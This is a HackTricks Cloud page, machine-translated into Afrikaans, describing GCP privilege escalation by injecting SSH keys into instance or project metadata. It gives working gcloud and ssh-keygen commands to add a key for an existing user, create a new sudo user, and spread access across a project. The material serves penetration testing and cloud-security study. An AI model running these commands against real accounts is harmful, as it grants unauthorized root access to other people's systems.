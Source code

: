 # GCP - Voeg Aangepaste SSH Metadata Toe

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer de [**abonnementsplannen**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Wysiging van die metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadatamodifikasie op 'n instansie kan lei tot **beduidende sekuriteitsrisiko's as 'n aanvaller die nodige toestemmings verkry**.

### **Insluiting van SSH-sleutels in Aangepaste Metadata**

Op GCP, voer **Linux-stelsels** dikwels skripte uit van die [Python Linux-gastomgewing vir Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). 'n Kritieke komponent hiervan is die [rekeninge-daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), wat ontwerp is om **gereeld die instansiemetadatapunt te ondersoek vir **opdaterings aan die gemagtigde SSH-openbare sleutels**.

Daarom, as 'n aanvaller aangepaste metadata kan wysig, kan hy die daemon 'n nuwe openbare sleutel laat vind, wat verwerk en **geïntegreer word in die plaaslike stelsel**. Die sleutel sal bygevoeg word in die `~/.ssh/authorized_keys`-lêer van 'n **bestaande gebruiker of moontlik 'n nuwe gebruiker met `sudo`-bevoegdhede skep**, afhangende van die sleutel se formaat. En die aanvaller sal die gasheer kan compromitteer.

### **Voeg SSH-sleutel by tot 'n bestaande bevoorregte gebruiker**

1. **Ondersoek Bestaande SSH-sleutels op die Instansie:**
- Voer die bevel uit om die instansie en sy metadata te beskryf om bestaande SSH-sleutels te vind. Die relevante afdeling in die uitset sal onder `metadata` wees, spesifiek die `ssh-keys` sleutel.
```bash
gcloud compute instances describe [INSTANSIE] --zone [SONE]
```
- Let op die formaat van die SSH-sleutels: die gebruikersnaam kom voor die sleutel, geskei deur 'n kolon.

2. **Berei 'n tekslêer voor vir SSH-sleutelmetadata:**
- Berg die besonderhede van gebruikersname en hul ooreenstemmende SSH-sleutels op in 'n tekslêer genaamd `meta.txt`. Dit is noodsaaklik om die bestaande sleutels te behou terwyl nuwes bygevoeg word.

3. **Genereer 'n Nuwe SSH-sleutel vir die Teikengebruiker (`alice` in hierdie voorbeeld):**
- Gebruik die `ssh-keygen`-bevel om 'n nuwe SSH-sleutel te genereer, en verseker dat die kommentaarveld (`-C`) ooreenstem met die teikengebruikersnaam.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Voeg die nuwe openbare sleutel by in `meta.txt`, wat die formaat naboots wat in die instansie se metadata gevind word.

4. **Werk die Instansie se SSH-sleutelmetadata by:**
- Pas die opgedateerde SSH-sleutelmetadata toe op die instansie deur die `gcloud compute instances add-metadata`-bevel te gebruik.
```bash
gcloud compute instances add-metadata [INSTANSIE] --metadata-from-file ssh-keys=meta.txt
```

5. **Kry Toegang tot die Instansie met die Nuwe SSH-sleutel:**
- Verbind met die instansie met SSH met behulp van die nuwe sleutel, en kry toegang tot die skaal in die konteks van die teikengebruiker (`alice` in hierdie voorbeeld).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Skep 'n nuwe bevoorregte gebruiker en voeg 'n SSH-sleutel by**

As geen interessante gebruiker gevind word nie, is dit moontlik om 'n nuwe een te skep wat `sudo`-bevoegdhede sal kry:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH-sleutels op projekvlak <a href="#sshing-around" id="sshing-around"></a>

Dit is moontlik om die reikwydte van SSH-toegang tot verskeie virtuele masjiene (VM's) in 'n wolk-omgewing te verbreed deur **SSH-sleutels op projekvlak toe te pas**. Hierdie benadering maak SSH-toegang moontlik tot enige instansie binne die projek wat nie uitdruklik projekwye SSH-sleutels geblokkeer het nie. Hier is 'n opgesomde gids:

1. **Pas SSH-sleutels op Projekvlak Toe:**
- Gebruik die `gcloud compute project-info add-metadata`-bevel om SSH-sleutels vanaf `meta.txt` by die metadata van die projek te voeg. Hierdie aksie verseker dat die SSH-sleutels erken word regoor alle VM's in die projek, tensy 'n VM die "Blokkeer projekwye SSH-sleutels" opsie geaktiveer het.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH na Instansies met Projekwye Sleutels:**
- Met projekwye SSH-sleutels op hul plek, kan jy SSH na enige instansie binne die projek. Instansies wat nie projekwye sleutels blokkeer nie, sal die SSH-sleutel aanvaar en toegang verleen.
- 'n Direkte metode om SSH na 'n instansie te maak, is deur die `gcloud compute ssh [INSTANSIE]`-bevel te gebruik. Hierdie bevel gebruik jou huidige gebruikersnaam en die SSH-sleutels wat op projekvlak ingestel is om toegang te probeer verkry.

# Verwysings
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
